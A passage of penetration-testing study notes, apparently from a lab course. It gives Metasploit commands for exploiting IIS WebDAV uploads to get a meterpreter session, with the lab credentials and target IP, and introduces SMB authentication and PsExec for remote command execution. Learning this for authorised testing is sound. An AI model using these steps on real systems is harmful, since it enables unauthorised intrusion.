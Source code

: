 Once your in
+ Can confirm it started with `sysinfo`
+ Can check privileges with `getuid`

#### WebDAV Automated Exploit 
Can use <mark style="background: #FF5582A6;">msfconsole</mark> to automate this process 
+ will `search iis upload`
	+ and `use exploit/windows/iis/iis_webdav_upload_asp`
	+ Will give us a meterpreter session automatically, with the following options set
		+ `set HttpUsername bob`
		+ `set HttpPassword password_123321`
		+ `set RHOSTS 10.3.22.26` (target IP)
		+ `set PATH /webdav/metasploit.asp` (webdav directory is where it is hosted and the name is set for the asp file)
		+ Can now run/exploit 
+ Will <mark style="background: #ADCCFFA6;">automatically delete the payload, and will be given a meterpreter session</mark>
+ can also delete with <mark style="background: #D2B3FFA6;">cadaver</mark>

### Exploiting SMB With PsExec 

#### SMB
+ <mark style="background: #BBFABBA6;">SMB</mark> (`Server Message Block`) is a network file sharing protocol used to share files and peripherals (printers and serial ports) between computers on a LAN
+ SMB used TCP port 445, originally SMB ran on top of NetBIOS using port 139
+ <mark style="background: #BBFABBA6;">SAMBA</mark> is the open source Linux implementation of SMB, allows Windows systems to access Linux shares and drives

#### SMB Authentication 
+ SMB protocol utilizes two levels of authentication 
	+ **User** Authentication 
	+ **Share** Authentication 
+ <mark style="background: #FFF3A3A6;">User authentication</mark> - Users must provide a username and password in order to authenticate with the SMB server in order to access a share 
+ <mark style="background: #FFF3A3A6;">Share authentication</mark> - Users must provide a password in order to access restricted share 

<mark style="background: #FF5582A6;">Note</mark>:  Both of the authentication levels utilize a challenge response authentication system

![](SMBAuth.png)

#### PsExec 
+ <mark style="background: #D2B3FFA6;">PsExec</mark> is a lightweight <mark style="background: #ADCCFFA6;">telnet-replacement</mark> developed by Microsoft that allows you to <mark style="background: #ADCCFFA6;">execute processes on remote Windows system</mark> using any user's credentials 
+ PsExec authentication is performed <mark style="background: #FFF3A3A6;">via SMB</mark>
+ Can use <mark style="background: #D2B3FFA6;">PsExec</mark> utility to <mark style="background: #ADCCFFA6;">authenticate with the target system legitimately and run arbitrary commands</mark> or launch a remote command prompt 
+ Very similar to RDP, but controlled <mark style="background: #FFF3A3A6;">via CLI</mark>
